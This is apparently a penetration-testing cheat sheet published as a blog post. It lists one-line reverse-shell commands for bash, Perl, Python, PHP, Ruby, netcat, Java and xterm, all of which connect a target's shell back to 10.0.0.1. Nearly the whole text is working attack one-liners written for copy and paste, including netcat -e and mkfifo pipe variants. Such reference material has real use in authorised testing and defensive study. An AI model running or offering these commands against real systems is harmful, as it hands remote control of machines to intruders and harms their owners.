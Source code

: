 ```yaml
---
layout: post
categories: cheatsheets
published: true
---
```

# Summary
{:.no_toc}

* toc
{:toc}

# General

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.

# Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# PERL

Here’s a shorter, feature-free version of the   perl-reverse-shell:

	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i))))
    {open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


# Python

This was tested under Linux / Python 2.7:

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
    os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.

# Ruby

	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

	nc -e /bin/sh 10.0.0.1 1234

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

# Java

	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()

[Untested submission from anonymous reader]

# xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

	xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

	Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

	xhost +targetip
